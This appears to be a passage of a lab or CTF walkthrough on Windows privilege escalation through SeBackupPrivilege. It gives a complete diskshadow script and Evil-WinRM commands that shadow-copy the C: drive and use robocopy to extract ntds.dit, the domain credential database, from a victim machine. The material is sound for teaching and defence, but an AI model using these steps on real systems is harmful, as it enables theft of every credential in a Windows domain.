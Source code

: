 ## Exploitation

There are multiple ways to exploit **SeBackupPrivileges** permissions. [refrence](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)

### Diskshadow & Robocopy 

Diskshadow and Robocopy are both windows buil-in utilities. **Diskshadow** creates copies of a currently used drive because we cannot create a copy of running system files, while **Robocopy** copies files and directories from one location to another.

Let's Create a script which will create a full backup of `C:\`  and exposes it as a network drive with the drive letter `E:\`.

```bash
$ cat backup.txt 
set verbose on 
set metadata C:\Windows\Temp\meta.cab 
set context clientaccessible 
set context persistent 
begin backup 
add volume C: alias cdrive 
create 
expose %cdrive% E: 
end backup 
```

- `set verbose on` to enable verbosity
- `set metadata C:\Windows\Temp\meta.cab` Location of metadata
- `set context clientaccessible` to make backup accessible to us
- `set context persistent` making it persistent so that we never lost it after the re-boot
- `begin backup` initiates backup process
- `add volume C: alias cdrive` includes the `C:\` drive, and assigns it an alias such as **cdrive** for reference
- `create` create a backup
- `expose %cdrive% E:` expose alias **cdrive** as a network drive
- `end backup` to finalize the backup
 
Now upload the backup script to victim machine using **upload** feature of evil-winrm.

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> upload backup.txt
```

Now create a **shadow copy** using diskshadow utility.

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> diskshadow /s backup.txt
```

- `/s` for script file path

<img alt="abc"  alt="abc"  src="https://i.imgur.com/LJJ9lP2.png">

When shadow copy created successfully. Now we have to extract **ntds.dit** file from the network drive. For this we will use **robocopy** utility.
```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> robocopy /b E:\Windows\ntds . ntds.dit
``` 
